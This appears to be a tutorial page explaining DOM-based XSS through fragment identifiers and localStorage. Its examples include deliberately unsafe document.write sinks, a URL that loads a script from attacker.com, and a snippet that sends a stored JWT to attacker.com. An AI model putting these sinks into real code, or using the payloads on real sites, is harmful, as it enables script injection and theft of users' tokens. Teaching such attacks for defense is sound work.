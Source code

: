 Client XSS
==========

DOM based XSS is similar to persistent and reflected XSS's, but with one subtle,
but very important distinction - the malicious JavaScript won't be loaded when
the page loads, instead, the malicious JS executes as a result of treating user
input in an unsafe way.

An easy way to understand this type of vulnerability is to consider pages that
dynamically update content without refreshing the whole page. The technology that
allows for this to happen, is AJAX. And AJAX is essentially JavaScript and XML.

As an example consider the following script used to display ads on a website:
```JavaScript
document.write('<script type="text/JavaScript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious JavaScript from a
third-party domain and inject it into the web page the victim is visiting.
`
http://www.example.com/ads/displayad.html?req=https://www.attacker.com/poc/xss.js
`
To perform this attack, an attacker creates a URL as the one above, and a user
upon clicking it, would execute the contents of the malicious script in their
browser.

There is another type of XSS that take advantage of features that are client-side  
only. This means that through these techniques, no logs are ever recorded on the
server.

A simple example of each feature is presented:

### Fragment identifiers:

The following script is very simple and for demonstration purposes only, but
encompasses the concept.

If this script was on a page:
```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

Then the following URL:
```
http://example.com/fragment.html#<script>alert(1)</script>
```

would trigger a XSS based on the fragment identifier.

### Local Storage

Another feature called `Local Storage` introduced with HTML5 also allows for
DOM based XSS's without the server logging.

`Local Storage` allows application data to be stored locally in the user's browser,
without resorting to cookies. There are several differences from cookies.
It is usually regarded as more secure and more performant than cookies, it also
allows a larger storage limit (5MB).

It should be noted that both `cookies` and `localStorage` are protected from
unrelated domains by the `Same-Origin Policy`.

For our demonstration, the feature we will focus on is the fact that the
data stored with `localStorage` is never sent to the server.
This is what allows the DOM-XSS to be performed without logs on the server-side.

A simple example:
```html
<script>
//Save our sample data
localStorage.setItem("JWT", "JWTTOKEN");

document.write("new Image().src='http://www.attacker.com?token="+localStorage.getItem('JWT')+"'>");
</script>
```

An important security detail to keep in mind is that the `localStorage` object
stores the data without an expiration date. This means that the data will not be
deleted when the browser is closed.